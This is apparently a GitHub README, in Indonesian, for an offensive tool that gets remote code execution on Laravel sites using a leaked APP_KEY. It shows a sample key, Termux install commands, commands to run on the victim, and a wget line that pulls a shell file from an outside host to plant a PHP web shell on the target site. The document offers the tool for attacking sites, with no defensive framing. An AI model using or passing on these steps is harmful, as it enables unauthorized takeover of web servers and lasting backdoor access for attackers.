 <p align="center">
<img src="https://i.ibb.co/87jRW62/20201215-092654.jpg">

### Laravel_rce
Laravel Remote Code Execution With APP_KEY

Contoh : 
```
base64:SUY7yQiUf73A9+qE2mZZiKyd97K18wL/NLCtZfR3LQA=
```

Cara Penginstalan Tools Laravel_rce

```
$ pkg update && upgrade
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell
```
Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)
```
Akses : site.com/NamaShellNya.php



Subscribe My Channel:D
